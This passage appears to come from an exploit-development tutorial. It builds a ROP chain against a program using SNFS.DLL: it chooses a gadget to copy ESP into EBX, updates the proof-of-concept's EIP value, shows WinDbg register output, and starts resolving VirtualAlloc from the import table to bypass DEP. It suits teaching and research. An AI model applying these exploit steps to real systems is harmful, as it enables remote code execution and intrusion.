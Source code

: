 From the above we see a couple of options and select the `0x100113dd` option as it will copy `ESP` into `EBX` without have any adverse affect on the stack. Reminder of our bad chars: `0x00, 0x09, 0x0A, 0x0B, 0x0C, 0x0D, 0x20`. We need to update our POC so that `EIP` points to our first gadget.

```python
eip = pack("<L", (0x100113dd)) # push esp ; sub eax, 0x20 ; pop ebx ; ret  ;

#set a breakpoint step through the instructions and ensure everything executes
bp 0x100113dd
```

Putting it all together, the `push esp ; sub eax, 0x20 ; pop ebx ; ret` ****ROP gadget saves the current value of `ESP` on the stack, subtracts `0x20` from `EAX`, pops the original value of `ESP` from the stack into `EBX`. We check the execution and ensure that `EBX` has the correct value now, which should be our `ESP` value.

```python
0:079> bp 0x100113dd

#we step the instructions
0:077> r
eax=ffffffe0 **ebx=0d84e31c** ecx=0d84ca70 edx=77e623b0 esi=0639d040 edi=00669360
eip=100113e2 **esp=0d84e31c** ebp=51515151 iopl=0         nv up ei ng nz na po cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000283
SNFS!toupper+0x1d:
100113e2 c3              ret
```

We can see that our `EBX` and `ESP` registers point to the same value.

## Obtaining VirtualAlloc Address <a name="valloca"></a>

We need to obtain the location of our `VritualAlloc` from the IAT table. We first verify if this is imported using IDA from the imports table. Our process will be as follow:

- Obtain address on stack where the dummy DWORD is e.g. dummy `VirtualAlloc`Address
- resolve the address of `VirtualAlloc` e.g. fetch the correct address
- Write that value to top of the placeholder value e.g. patch the chain to point to `VirtualAlloc`

Inspect the IAT table using IDA PRO e.g. *Imports* tab and get the address for `VirtualAlloc`. We therefore loaded `SNFS.DLL` into IDA. We identify our location as `0x100252E0`. 

![Untitled](/assets/Untitled%203.png)
